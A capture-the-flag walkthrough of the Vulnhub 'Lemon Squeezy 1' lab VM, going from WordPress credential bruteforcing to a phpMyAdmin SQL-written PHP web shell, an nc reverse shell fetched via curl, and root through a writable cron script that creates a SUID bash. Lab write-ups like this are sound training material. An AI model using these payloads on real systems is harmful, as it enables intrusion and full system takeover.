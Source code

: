 +++
title = "Vulnhub: Lemon Squeezy 1"
date = "2021-04-13"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Directory Bruteforce", "ffuf", "WordPress", "WPScan", "PHPMyAdmin", "Cron"]
keywords = ["", ""]
description = ""
showFullContent = false
images = ["/img/lemonsqueezy1/lemon.png"]
+++

<!--more-->
{{< image src="/img/lemonsqueezy1/lemon.png" alt="" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ |
| Beginner | 26 Apr 2020 | James Hay | 

# Summary

For this box we only get one port running a web server and we discover wordpress and phpmyadmin by directory bruteforcing. 
On the wordpress application we bruteforce credentials of the users discovered and then discover more credentials stored
in a draft post. With this new credentials we access phpmyadmin and write to a file using an sql query. This serves
as our initial foothold and we then escalate privileges by abusing a cron job running as root that executes a world writeable 
script.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.191.134
Host is up (0.00014s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:FF:26:DE (VMware)
```
# Enumeration

## 80 (HTTP)

Visiting this page on the browser only serves the apache default page, confirming what nmap found in title.

After performing a directory bruteforce using ffuf we get the following directories:

```sh
ffuf -ic -c -u 'http://192.168.191.134/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 50
```

{{< image src="/img/lemonsqueezy1/lemon-1.png" alt="" position="center" style="border-radius: 8px;" >}}

Checking the /wordpress directory, we see a basic wordpress site with not much information.

{{< image src="/img/lemonsqueezy1/lemon-2.png" alt="" position="center" style="border-radius: 8px;" >}}

Performing enumeration using wpscan, the only interesting information gathered is the usernames.

```sh
wpscan --url http://lemonsqueezy/wordpress -e ap,at,tt,cb,dbe,u -o wpscan.out --api-token
```

{{< image src="/img/lemonsqueezy1/lemon-3.png" alt="" position="center" style="border-radius: 8px;" >}}

Bruteforcing the credentials for each user, we discover the password of the orange user.

```sh
wpscan --url http://lemonsqueezy/wordpress -U orange -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt
```

{{< image src="/img/lemonsqueezy1/lemon-4.png" alt="" position="center" style="border-radius: 8px;" >}}

After logging into wordpress with the discovered credentials **orange:ginger**, we find another password in drafts.

{{< image src="/img/lemonsqueezy1/lemon-5.png" alt="" position="center" style="border-radius: 8px;" >}}

With this password, we are able to login to phpmyadmin as the orange user.

{{< image src="/img/lemonsqueezy1/lemon-6.png" alt="" position="center" style="border-radius: 8px;" >}}

Successful login:

{{< image src="/img/lemonsqueezy1/lemon-7.png" alt="" position="center" style="border-radius: 8px;" >}}

By logging in we can abuse this access by writing a file to disk that contains php by using an sql statement.

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wordpress/shell.php" 
```

{{< image src="/img/lemonsqueezy1/lemon-8.png" alt="" position="center" style="border-radius: 8px;" >}}

We can then verify that we have successful command execution, by running the whoami command.

{{< image src="/img/lemonsqueezy1/lemon-9.png" alt="" position="center" style="border-radius: 8px;" >}}

# Shell as www-data

Running the below curl command we are able to get a reverse shell:

```sh
curl "http://192.168.191.134/wordpress/shell.php?cmd=nc+-e+/bin/bash+192.168.191.1+9000+%26"
```

{{< image src="/img/lemonsqueezy1/lemon-10.png" alt="" position="center" style="border-radius: 8px;" >}}

After performing some manual local enumeration, we discover a cron job running as root. 

{{< image src="/img/lemonsqueezy1/lemon-11.png" alt="" position="center" style="border-radius: 8px;" >}}

The script being executed in the cron job is world writeable and the www-data user can write to it.

{{< image src="/img/lemonsqueezy1/lemon-12.png" alt="" position="center" style="border-radius: 8px;" >}}


# Shell as root

After changing the script to the below command we can create a bash binary with suid permissions.

```sh
#!/bin/bash
cp /bin/bash /suidbash
chmod u+s /suidbash
```

{{< image src="/img/lemonsqueezy1/lemon-13.png" alt="" position="center" style="border-radius: 8px;" >}}

Once the cron is executed we get the binary and can escalate to root shell and read root.txt.

```sh
./suidbash -p
```

{{< image src="/img/lemonsqueezy1/lemon-14.png" alt="" position="center" style="border-radius: 8px;" >}}

# Extras

 - It seems I forgot user.txt and it is in /var/www.

{{< image src="/img/lemonsqueezy1/lemon-15.png" alt="" position="center" style="border-radius: 8px;" >}}

- We could write to the wordpress folder from phpmyadmin because it was world-writeable.

{{< image src="/img/lemonsqueezy1/lemon-16.png" alt="" position="center" style="border-radius: 8px;" >}}

